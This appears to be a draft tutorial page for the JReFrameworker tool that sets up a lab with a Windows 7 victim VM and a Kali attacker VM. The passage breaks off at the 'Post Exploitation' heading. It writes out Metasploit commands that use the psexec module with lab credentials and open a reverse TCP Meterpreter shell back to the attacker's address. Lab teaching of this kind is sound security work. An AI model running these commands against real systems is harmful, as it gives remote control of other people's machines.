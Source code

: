 ```yaml
---
layout: post
title: Payload Deployment
draft: true
---
```


This tutorial demonstrates how to modify a victim machine's runtime using a JReFrameworker module.

If you haven't already, you should complete the first two tutorials ([Hello World](./hello-world) and [Hidden File](./hidden-file)) to become familiar with the basics of JReFrameworker.

<a name="Setup"></a>

## Lab Setup

You will also need to setup a small laboratory test environment that includes the following.

1. A victim machine (this tutorial uses a fresh install of Windows 7 SP1 x64 English edition in a virtual machine, but any OS capable of running Java will work).
2. An attacker machine with [Metasploit](https://www.metasploit.com/) installed (this tutorial uses a [Kali Linux virtual machine](https://www.offensive-security.com/kali-linux-vmware-virtualbox-image-download/) version 2016.2).
3. An installation of JReFrameworker (this tutorial uses the host machine, but any OS that can run [Eclipse](https://eclipse.org/) with JReFrameworker installed will work).

For this tutorial we will be using [VMWare](https://www.vmware.com) virtual machines, but [Virtualbox](https://www.virtualbox.org) is a good free alternative to VMWare.

Our victim machine was created with an Administrator account named `Victim` and password `badpass`. Log into the machine. Since Java is not installed by default, we will need to install the runtime environment. You can download the standard edition of Java directly from [Oracle](http://www.oracle.com/technetwork/java/javase/downloads/index.html) or by using the [ninite.com](https://ninite.com/) installer. 

After installing Java, we set out virtual machines to `Host only` mode with our victim at `192.168.115.129` and our attacker at `192.168.115.128`. Double check that you know the IP addresses of each machine and that each machine can ping the other. If Kali cannot ping the Windows virtual machine, you may need to disable or specifically allow connections through the Windows firewall.

<p>
  <center>
    <a href="../images/payload-deployment/windows-network-zoom.png" data-lightbox="windows-network" data-title="Windows Network">
      <img src="../images/payload-deployment/windows-network.png" alt="Windows Network" />
      <figcaption>Windows (Victim) Network (click to zoom)</figcaption>
    </a>
  </center>
</p>

<p>
  <center>
    <a href="../images/payload-deployment/kali-network-zoom.png" data-lightbox="kali-network" data-title="Kali Network">
      <img src="../images/payload-deployment/kali-network.png" alt="Kali Network" />
      <figcaption>Kali (Attacker) Network (click to zoom)</figcaption>
    </a>
  </center>
</p>

The next section continues the lab setup towards getting an active [Metasploit Meterpreter](https://www.offensive-security.com/metasploit-unleashed/about-meterpreter/) session on the victim machine. If your lab setup is different and you have a working exploit already, skip to the [Post Exploitation](#PostExploitation) section below.

<a name="Exploitation"></a>

## Exploitation

Since we already know the credentials for the victim machine, we will be using Metasploit's [psexec (pass the hash) module](https://www.offensive-security.com/metasploit-unleashed/psexec-pass-hash/). In Kali, open the Metasploit framework console by typing `msfconsole` in the terminal. 

Within the Metasploit framework console, load the psexec exploit module by typing `use exploit/windows/smb/psexec`.

Type `show options` to view the exploit configuration parameters.

Set `RHOST` (remote host) to be the IP address of the victim machine by typing `set RHOST 192.168.115.129`.

Set the username to authenticate as by typing `set SMBUser Victim`. Note that you may need to replace `Victim` with the Windows username you used to configure your virtual machine with during setup.

Set the password to authenticate with by typing `set SMBPass badpass`. Again you may need to replace `badpass` with the actual password you used during setup.

Finally let's configure a reverse TCP Meterpreter payload that will execute Meterpreter on the victim machine and connect back to our attacker machine with the active session. Configure the payload by typing `set PAYLOAD windows/meterpreter/reverse_tcp`.

Set the outbound Meterpreter connection address to be the IP address of the attacker machine by typing `set LHOST 192.168.115.128`.

Set the outbound Meterpreter connection port to be port 443 (https) by typing `set LPORT 443`.

Finally run the exploit by typing `exploit`.

<a name="PostExploitation"></a>

## Post Exploitation